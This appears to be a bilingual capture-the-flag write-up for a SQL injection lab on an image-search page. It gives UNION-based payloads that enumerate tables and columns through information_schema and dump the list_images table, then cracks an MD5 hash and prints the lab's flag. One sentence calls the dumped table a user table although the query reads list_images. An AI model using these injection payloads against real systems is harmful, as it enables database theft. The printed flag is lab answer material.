


# SQL injection in search image page
### SELECT TABLE_NAME FROM information_schema.tables


## check how many columns
```
1 OR 1=1 UNION SELECT NULL, NULL
```
This command is used to find out the number of columns necessary to perform a UNION with the original query. The condition 1 OR 1=1 always evaluates to true, thus selecting all records by default.
To match the column count, increment the number of NULLs until a match is found. In this case, it's determined that there are 2 columns.

オリジナルのクエリとUNIONするために必要なカラム数を見つけ出すコマンド。
1 OR 1=1は常に真となる条件を作り出し、結果としてすべてのレコードを選択する。
column数が一致するまでNULLを増やしていけばいいが、ここではcolumnが2つであることがわかる 


## get the table name of DB 
```
1 OR 1=1 UNION SELECT table_name, NULL FROM information_schema.tables
```
Obtains the names of all tables within the database. information_schema.tables is a special table that stores metadata about the database, including all table names.
Note: The first column = Table Name, the second column = NULL is used solely for matching purposes.

データベース内のすべてのテーブル名を取得する。
information_schema.tablesは、データベースのメタデータを格納する特別なテーブルで、すべてのテーブル名を含む
NB: 第一カラム = テーブル名 , 第二カラム = 一致させるためだけにNULLを使用


## get the column infomation of table
```
1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
Retrieves the column names and their associated table names for a specific table (in this case, targeting the ```list_images``` table). information_schema.columns is a table that contains information about all columns within the database.
This allows identifying which columns can be utilized for an attack.

特定のテーブル（この場合は```list_images```テーブルがターゲット）のカラム名とそのテーブル名を取得。information_schema.columnsは、データベース内のすべてのカラムに関する情報を持つテーブル。
これにより、どのカラムが攻撃に利用できるかを特定可能


## get the data of list_images table
```
1 OR 1=1 UNION SELECT id, CONCAT(id, url, title, comment) FROM list_images
```
By using the CONCAT() function, multiple columns are merged into a single string, enabling the attacker to obtain information of interest in one go.
This query extracts specific data from the user table, providing valuable information to the attacker.

CONCAT()関数を使って、複数のカラムを一つの文字列として結合し、usersテーブルの情報を一度に取得できるようにする。
このクエリは、ユーザーテーブルから特定のデータを抜き出し、攻撃者にとって有益な情報を提供する。




``` 
Title: 5borntosec.ddns.net/images.pngHack me ?
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 
```

So we try to decript ``` 1928e8083cf461a51303633093573c46  ``` with MD5  


https://md5decrypt.net/


then, encode ``` albatroz``` with sha256


### flag = ```f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 ```
